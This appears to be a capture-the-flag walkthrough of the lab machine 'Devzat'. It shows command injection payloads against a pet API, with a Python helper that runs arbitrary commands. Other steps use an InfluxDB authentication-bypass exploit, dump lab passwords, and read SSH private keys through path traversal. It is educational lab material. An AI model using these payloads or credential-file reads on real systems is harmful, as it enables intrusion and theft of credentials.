





<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.118 devzat.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://devzat.htb/
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91SVN%I=7%D=11/26%Time=61A0C256%P=x86_64-unknown-linux
SF:-gnu%r(NULL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Port 8000 is running a ssh messaging server: [devzat](https://github.com/quackduck/devzat) 
* Found email from webapp: `patrick@devzat.htb`
  * Username: `patrick`

Running subdomain scan with ffuf
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.devzat.htb" -u http://10.10.11.118 -ac -t 100 -v

# ... [snip] ...

[Status: 200, Size: 510, Words: 20, Lines: 21, Duration: 343ms]
| URL | http://10.10.11.118
    * FUZZ: pets
```

* found subdomain: `pets.devzat.htb`

subdomain is running on api and fetch pets from `/api/pet` endpoint.



# Foothold

## Command Injection

there is a feature to add pet in the list, while testing this feature i notice a suspicious error.

```bash
curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":"test"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":"test","characteristics":"exit status 1"}]

curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":"test\'"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":"test'","characteristics":"exit status 2"}]
```

There errors are related to bash script. ;**[Source](https://www.redhat.com/sysadmin/exit-codes-demystified)**

When i send the POST request with "species" value that is not defined, get response "exit status 1" and when i add extra `'` in the "species" value get the response "exit status 2". These errors match the bash [exit code reference](https://tldp.org/LDP/abs/html/exitcodes.html)


If "species" parameter goes into a bash script then this could be command injection.

And this is indeed a command injection bug
```bash
❯ curl -s -X POST 'http://pets.devzat.htb/api/pet' -d $'{"name":"cat","species":";id"}' 1>/dev/null; curl -s 'http://pets.devzat.htb/api/pet' | tr '{' '\n' | tail -n 1
"name":"cat","species":";id","characteristics":"cat: characteristics/: Is a directory\nuid=1000(patrick) gid=1000(patrick) groups=1000(patrick)\n"}]
```

python script to beautify command output
```py
import re
import requests as r

cmd = 'ls -la'  # 'cat /home/patrick/.ssh/id_rsa'
postrspn = r.post('http://pets.devzat.htb/api/pet', json={"name": "cat", "species": f";{cmd}"})
if 'Pet was added successfully' in postrspn.text:
    getrspn = r.get('http://pets.devzat.htb/api/pet')
    parse = re.findall(r'elephant."},(.*?)"}]', getrspn.text)[0].encode('utf-8').decode('unicode_escape')
    print(parse)
else:
    print(postrspn.text)
```

from `/home/patrick/` get ssh private key for that user.

# Privesc

## InfluxDB authentication bypass vulnerability

There are some local services running.
```bash
LISTEN    0         4096             127.0.0.1:8086             0.0.0.0:*
LISTEN    0         4096             127.0.0.1:8443             0.0.0.0:*
```

port 8086 Running InfluxDB http admin 1.7.5
```bash
patrick@devzat:~$ curl -i 127.0.0.1:8086
HTTP/1.1 404 Not Found
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.7.5
Date: Sat, 27 Nov 2021 08:58:29 GMT
Content-Length: 19

404 page not found
```

* **[InfluxDB](https://www.influxdata.com/)** is an open-source time series database developed by the company InfluxData. It is written in the Go programming language for storage and retrieval of time series data in fields such as operations monitoring, application metrics, Internet of Things sensor data, and real-time analytics.

Found auth authentication [CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) from [hacktricks](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb#authentication)

Exploit required some modules which are not available in the target box.

Setup local environment for the exploit
```bash
❯ ssh -L 8086:127.0.0.1:8086 -i patrick_rsa patrick@10.10.11.118
❯ python3 -m venv env
❯ source env/bin/activate
❯ python -m pip install -r requirements.txt
```

Default username "admin" worked and successfully bypass authentication and from database get the bunch of usernames and passwords.



```bash
wilhelm:WillyWonka2021
catherine:woBeeYareedahc7Oogeephies7Aiseci
charles:RoyalQueenBee$
```

User "catherine" is in the system and his passowrd worked with su. 

```bash
# ...[snip]...
root         859  0.0  0.1   6812  3004 ?        Ss   Nov26   0:00 /usr/sbin/cron -f
patrick      861  0.0  0.1   6892  2192 ?        Ss   Nov26   0:00 /bin/bash /home/patrick/pets/start.sh
# ...[snip]...
```

There are 2 zip file in `/var/bachup` direcotry owned by user "catherine"

unziping both archives and running both directory against `diff` found only 3 file diffrent to each other.
```bash
diff main/allusers.json dev/allusers.json
diff main/commands.go dev/commands.go
diff main/devchat.go dev/devchat.go

#one extra file in "dev"
Only in dev/: testfile.txt
```

`dev/commands.go` have some extra code which contains a password.
```bash
diff main/ dev/
# ...[snip]...
> 	// Check my secure password
> 	if pass != "CeilingCatStillAThingIn2021?" {
> 		u.system("You did provide the wrong password")
> 		return
> 	}
# ...[snip]...
```

Found a password `CeilingCatStillAThingIn2021?` but not for user "root"

## lfi

There is a one more service running on localhost, this port is running same app "devzat" but slightly diffrent.

"devzat" one that is running on localhost is a dev version which have one extra command `/file`



`diff` command already got that command source code
```go
func fileCommand(u *user, args []string) {
	if len(args) < 1 {
		u.system("Please provide file to print and the password")
		return
	}

	if len(args) < 2 {
		u.system("You need to provide the correct password to use this function")
		return
	}

	path := args[0]
	pass := args[1]

	// Check my secure password
	if pass != "CeilingCatStillAThingIn2021?" {
		u.system("You did provide the wrong password")
		return
	}

	// Get CWD
	cwd, err := os.Getwd()
	if err != nil {
		u.system(err.Error())
	}

	// Construct path to print
	printPath := filepath.Join(cwd, path)

	// Check if file exists
	if _, err := os.Stat(printPath); err == nil {
		// exists, print
		file, err := os.Open(printPath)
		if err != nil {
			u.system(fmt.Sprintf("Something went wrong opening the file: %+v", err.Error()))
			return
		}
		defer file.Close()

		scanner := bufio.NewScanner(file)
		for scanner.Scan() {
			u.system(scanner.Text())
		}

		if err := scanner.Err(); err != nil {
			u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
		}

		return

	} else if os.IsNotExist(err) {
		// does not exist, print error
		u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
		return
	}
	// bokred?
	u.system("Something went badly wrong.")
}

func clearCommand(u *user, _ []string) {
	u.term.Write([]byte("\033[H\033[2J"))
}
```

This source code shows that this command takes 2 arguments "file path" and "password" and there is no sanitization in the input. Another thing is that file path construct with 2 fields application's working directory + user input file path.
```go
	// Get CWD
	cwd, err := os.Getwd()
	if err != nil {
		u.system(err.Error())
	}

	// Construct path to print
	printPath := filepath.Join(cwd, path)
```

And application's working directory is `/root/devzat/`
```bash
dev: /file test CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/test does not exist!
```

this is kind of a lfi bug where `../` lead to file inclusion.
```bash
/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
```



